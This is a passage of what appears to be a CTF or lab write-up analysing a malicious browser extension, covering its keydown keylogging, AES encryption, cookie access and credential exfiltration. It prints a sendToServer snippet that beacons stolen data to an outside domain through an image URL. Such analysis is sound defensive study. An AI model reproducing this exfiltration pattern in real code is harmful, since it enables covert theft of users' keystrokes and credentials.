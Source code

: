 we can observe that the extension uses the **keydown** event, which is triggered when a key is pressed.

**Answer:** **keydown**

---

### 7. What is the domain where the extension transmits the exfiltrated data?
By examining the following code snippet:

```js
    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```

we can observe that the extension transmits the exfiltrated data to the domain: "https://Mo.Elshaheedy.com/collect"

**Answer:** **Mo.Elshaheedy.com**

---

### 8. Which function in the code is used to exfiltrate user credentials, including the username and password?

By examining the following code snippet:
```js
exfiltrateCredentials(username, password);
```

we can observe that the extension uses the **exfiltrateCredentials** function to exfiltrate user credentials.

**Answer:** **exfiltrateCredentials(username, password);**

---

### 9. Which encryption algorithm is applied to secure the data before sending?
By examining the following code snippet:

```js
const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```

we can observe that the extension uses the **AES** encryption algorithm to secure the data before sending.

**Answer:** **AES**

--- 

### 10. What does the extension access to store or manipulate session-related data and authentication information?

We know that to store or manipulate session-related data and authentication information, the extension uses the **cookies** object.

**Answer:** **cookies**

